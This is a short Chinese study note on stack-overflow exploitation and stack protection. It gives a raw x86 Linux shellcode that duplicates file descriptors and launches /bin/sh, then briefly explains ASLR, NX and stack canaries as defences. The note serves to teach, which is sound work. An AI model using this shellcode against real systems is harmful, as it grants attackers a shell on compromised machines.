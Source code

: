 # 利用栈溢出以及保护栈

一段shellcode：

```bash
\x31\xdb\xb3\x03\x31\xc9\xb1\x03
\xfe\xc9\x31\xc0\xb0\x3f\xcd\x80
\x80\xf9\xff\x75\xf3\x31\xc9\x6a
\x0b\x58\x99\x52\x68\x2f\x2f\x73
\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

保护栈的方式：栈地址随机化、不可执行(NX)、Canary(金丝雀，在栈的某个位置添加一段字符串，如果被覆盖会导致字符串改变，因此察觉到错误)。